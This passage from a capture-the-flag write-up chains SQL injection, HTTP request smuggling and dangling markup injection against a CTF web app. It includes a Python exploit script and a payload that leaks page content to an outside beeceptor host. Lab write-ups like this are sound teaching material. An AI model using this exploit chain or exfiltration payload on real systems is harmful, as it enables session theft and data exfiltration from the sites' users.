 ## Putting it all together

In the above sections we have demonstrated the following vulnerabilities:
- An SQL Injection through improper type checking in `POST /login`
- HTTP Request Smuggling to bypass ATS proxy, thus allowing a request to `POST /do-report`
- A Dangling Markup Injection through `POST /token` and reflected in `GET /verify?token=<token>`

Our attack pattern would involve the following:
1. Retrieve an authentication cookie by exploiting the SQLi vulnerability
2. Generate a token, injecting a dangling markup injection payload through the `username` parameter.
3. Exploiting the HTTP Request Smuggling, make a request to the `POST /do-report` endpoint and pass in the `url` parameter the `GET /verify?token=<token_generated_in_step_2>`.

Let's go ahead and automate the whole process with a script:

```python
import requests
import json
import sys
import urllib.parse

domain = "chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627"
url = f"http://{domain}"
login_endpoint = f"{url}/login"
token_endpoint = f"{url}/token"
verify_endpoint = f"{url}/verify"

login_payload = {"email": {"email":1}, "password": {"password":1}}

## Login Stuff
r_login = requests.post(login_endpoint, json=login_payload)

cookie = ""

for c in r_login.cookies:
    if c.name == "connect.sid":
        cookie = f"{c.name}={c.value}"

## Generate dangling markup injection token
headers = {"Cookie": cookie}
token_payload = {"username":"\"/><img src=\"https://test-dangling-markup.free.beeceptor.com?"}
r_token = requests.post(token_endpoint, json=token_payload, headers=headers)
bad_token = urllib.parse.quote(r_token.json().get("token"))

## Perform HTTP Request Smuggling

body = '{"url":"http://localhost:8000/verify?token=' + bad_token + '"}'
body = body.encode()
cookie = cookie.encode()

smuggled = (
    b"POST /do-report HTTP/1.1\r\n" +
    b"Host: app:8000\r\n" +
    b"Content-Type: application/json\r\n" +
    b"Content-Length: " + str(len(body)).encode() + b"\r\n" +
    b"Cookie: " + cookie + b"\r\n" +
    b"\r\n" +  
    body + b"\r\n"
    b"\r\n" + 
    b"0\r\n" +
    b"\r\n"
)

```
